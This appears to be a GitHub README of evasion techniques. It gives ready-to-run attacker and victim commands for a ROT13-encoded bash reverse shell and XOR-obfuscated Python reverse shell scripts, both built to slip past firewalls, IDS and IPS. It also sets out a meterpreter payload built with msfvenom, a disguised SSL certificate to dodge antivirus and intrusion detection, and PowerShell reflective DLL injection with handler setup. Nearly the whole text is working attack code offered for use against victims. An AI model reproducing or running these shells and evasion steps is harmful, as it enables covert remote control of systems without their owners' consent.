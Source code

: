 # evasion
Techniques for evading firewalls and malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.
* A/V - Anti-Virus, Anti-Malware, etc.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a Linux reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />

[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />

[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS on a system supporting Python.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />

[ python script ]<br />
```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 4444))
s.listen(2)
print "Listening... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
while True:
  command = raw_input('~$ ')
  encode = bytearray(command)
  for i in range(len(encode)):
    encode[i] ^=0x5A
  client.send(encode)
  en_data=client.recv(2048)
  decode = bytearray(en_data)
  for i in range(len(decode)):
    decode[i] ^=0x5A
  print decode
client.close()
s.close()
```

( victim )<br />

[ python script ]<br />
```python
import socket,subprocess,sys
RHOST = "10.1.2.3"
RPORT = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
while True:
  data = s.recv(1024)
  en_data = bytearray(data)
  for i in range(len(en_data)):
    en_data[i] ^=0x5A
  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
  STDOUT, STDERR = comm.communicate()
  en_STDOUT = bytearray(STDOUT)
  for i in range(len(en_STDOUT)):
    en_STDOUT[i] ^=0x5A
  s.send(en_STDOUT)
s.close()
```

## Circumventing A/V on Windows to get meterpreter reverse shell

This technique is useful for getting a reverse shell on Windows where endpoint A/V protection is in place that blocks malicious DLLs and blocks malicious network connections such as the default meterpreter reverse_https SSL server certificate.

In this example the attacking host is Kali on IP address 10.1.2.3 and listens on port 443 for the reverse shell from the victim.  Powershell reflection will be used on the Windows victim to execute the meterpreter DLL.  The receiving Kali host will use metasploit multi-handler with a custom SSL certificate to accept the reverse HTTPS connection.

( attacker )<br />

First create your custom SSL certificate and private key.  The properties (e.g. Subject) used by the default certificate for reverse_https in metasploit that are sent during the SERVER HELLO phase may trigger host-based IDS/IPS so you will need to replace it with a certificate that has different Subject attributes.  Execute the following two commands to generate a replacement certificate.  This example assumes the output file msf.pem will be place into root's home folder.

`openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -subj "/C=US/ST=NY/L=Ithaca/O=Insanity/CN=pwned.you.org" -keyout msf.key -out msf.crt`<br />
`cat msf.key msf.crt > msf.pem`<br />

Generate the meterpreter DLL as a base64 blob that you will paste into the powershell script which will be executed on the Windows victim.

[ 32-bit meterpreter payload ]<br />
`msfvenom -a x86 -p windows/meterpreter/reverse_https LHOST=10.1.2.3 LPORT=443 -f dll | base64 -w 0`<br />
[ 64-bit meterpreter payload ]<br />
`msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=10.1.2.3 LPORT=443 -f dll | base64 -w 0`<br />

Create a powershell script called msf.ps1 that will be executed on the victim.  The powershell script will incorporate code developed by PowerShell Mafia to handle the reflective DLL injection.  The URL for the reflection code is here:

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

The msf.ps1 script should be constructed as follows:

`$b64_meterpreter_dll = '<paste base64 for DLL here>'`<br />
`$bytes = [Convert]::FromBase64String($b64_meterpreter_dll)`<br />
`<paste PowerShell Mafia code here>`<br />
`Invoke-ReflectivePEInjection -PEBytes $bytes -Verbose`<br />

Launch metasploit and start the multi-handler listener to receive the meterpreter reverse HTTPS payload.  Be sure to use the appropriate architecture (x86 or x64):

`msfconsole -q`<br />
`use exploit/multi/handler`<br />
`set payload windows/x64/meterpreter/reverse_https`<br />
`set lhost 10.1.2.3`<br />
`set lport 443`<br />
`set HandlerSSLCert /root/msf.pem`<br />
`set StagerVerifySSLCert false`<br />
`run`<br />

( victim )<br />

Deliver the msf.ps1 script to the Windows victim and execute it.
